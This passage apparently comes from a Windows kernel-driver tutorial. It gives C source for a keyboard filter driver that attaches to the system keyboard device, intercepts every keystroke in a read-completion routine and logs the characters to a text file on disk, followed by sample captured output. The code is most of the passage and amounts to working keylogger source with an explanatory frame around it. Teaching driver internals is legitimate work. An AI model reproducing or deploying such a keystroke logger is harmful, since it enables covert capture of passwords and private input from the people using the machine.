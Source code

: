 ```c
    while (1) {
        ZwWriteFile(hFile, 0, 0, 0, 0, & z -> ch, 1, 0, 0);
        z = (struct zzz * ) z -> ls.Flink;
        if (z -> ls.Flink == List.Flink)
            break;
    }
    ZwClose(hFile);
}
NTSTATUS OnReadCompletion(PDEVICE_OBJECT pDeviceObject, PIRP pIrp, PVOID Context) {
    PKEYBOARD_INPUT_DATA keys = (PKEYBOARD_INPUT_DATA) pIrp -> AssociatedIrp.SystemBuffer;
    if (keys -> Flags == 0) {
        struct zzz * z;
        DbgPrint("ScanCode %d %c\n", keys[0].MakeCode, KeyMap[keys -> MakeCode]);
        z = (struct zzz * ) ExAllocatePool(PagedPool, sizeof(struct zzz));
        z -> ch = KeyMap[keys -> MakeCode];
        InsertTailList( & List, (LIST_ENTRY * ) z);
    }
    IoMarkIrpPending(pIrp);
    numPendingIrps--;
    return pIrp -> IoStatus.Status;
}
NTSTATUS abcRead(PDEVICE_OBJECT pDeviceObject, PIRP pIrp) {
    IoCopyCurrentIrpStackLocationToNext(pIrp);
    IoSetCompletionRoutine(pIrp, OnReadCompletion, 0, 1, 0, 0);
    numPendingIrps++;
    return IoCallDriver(pactualkeyboarddevice, pIrp);
}
NTSTATUS DriverEntry(PDRIVER_OBJECT d, PUNICODE_STRING r) {
    OBJECT_ATTRIBUTES attr;
    UNICODE_STRING uFileName;
    DbgPrint("Vijay2");
    InitializeListHead( & List);
    RtlInitUnicodeString( & uFileName, L "\\DosDevices\\c:\\driverm\\z.txt");
    InitializeObjectAttributes( & attr, & uFileName, OBJ_CASE_INSENSITIVE, 0, 0);
    ZwCreateFile( & hFile, GENERIC_WRITE, & attr, 0, 0, 0, 0, 0, FILE_SYNCHRONOUS_IO_NONALERT, 0, 0);
    d -> MajorFunction[IRP_MJ_READ] = abcRead;
    IoCreateDevice(d, 0, 0, FILE_DEVICE_KEYBOARD, 0, 1, & pgenericdevice);
    pgenericdevice -> Flags = pgenericdevice -> Flags | DO_BUFFERED_IO;
    RtlInitUnicodeString( & uKeyboardDeviceName, L "\\Device\\KeyboardClass0");
    IoAttachDevice(pgenericdevice, & uKeyboardDeviceName, & pactualkeyboarddevice);
    d -> DriverUnload = Unload;
    return 0;
}
```
```
ScanCode 21 y
ScanCode 57 
ScanCode 12 -
ScanCode 22 u
ScanCode 28 
z.txt
y –u
```
The above program may be long but it actually does very little that we do not already know off. We would first like to display the actual key pressed and not the scan code. There is a one to one relationship between scan code and key pressed.

